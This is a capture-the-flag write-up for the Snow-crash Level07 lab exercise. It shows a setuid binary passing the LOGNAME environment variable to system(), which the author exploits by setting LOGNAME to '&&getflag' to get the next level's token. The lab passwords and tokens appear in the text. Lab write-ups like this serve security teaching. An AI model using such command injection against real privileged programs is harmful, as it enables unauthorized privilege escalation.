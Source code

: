 ```yaml
---
title:  "Snow-crash Level07"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - CyberSecurity
  - Github
  - Git
toc: true
toc_sticky: true

date: 2024-2-15
last_modified_at: 2024-02-15
categories: 
- 42
---
```


#### 1. The password of `Level07` is the token that got from `Level06`.

```bash
wiok45aaoguiboiki2tuin6ub
```

#### 2. So, try login to Level07 with the password we got from Level06 and try to put the command `ls`. We can see the file `Level07`. and try to execute.

```bash
level06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$ ./level07
level07
```
#### 3. Try to put `file` command
```bash
level07@SnowCrash:~$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```
It's a binary file. 

#### 4. So, let's use ltrace command to understand/to debug the behavior of this program

```bash
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                 = 2007
geteuid()                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME")                         = "level07"
asprintf(0xbffff6f4, 0x8048688, 0xbfffff2c, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                    = 0
+++ exited (status 0) +++
```
We can see the getenv("LOGNAME") = "level07"

```
level07@SnowCrash:~$ echo $LOGNAME
level07
```
#### 5. Try to do the small tests as below.

```
level07@SnowCrash:~$ export LOGNAME="HELLO_WORLD";
level07@SnowCrash:~$ ./level07
HELLO_WORLD
```

```
level07@SnowCrash:~$ export
declare -x HOME="/home/user/level07"
declare -x LANG="en_US.UTF-8"
declare -x LC_CTYPE="UTF-8"
declare -x LC_TERMINAL="iTerm2"
declare -x LC_TERMINAL_VERSION="3.4.23"
declare -x LESSCLOSE="/usr/bin/lesspipe %s %s"
declare -x LESSOPEN="| /usr/bin/lesspipe %s"
declare -x LOGNAME="HELLO_WORLD"
```
We can see the line `declare -x LOGNAME="HELLO_WORLD"`

#### 6. So then, we try to put getflag in the LOGNAME. 

```bash
level07@SnowCrash:~$ export LOGNAME="&&getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

#### 7. We got a token for level 08. 
```
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```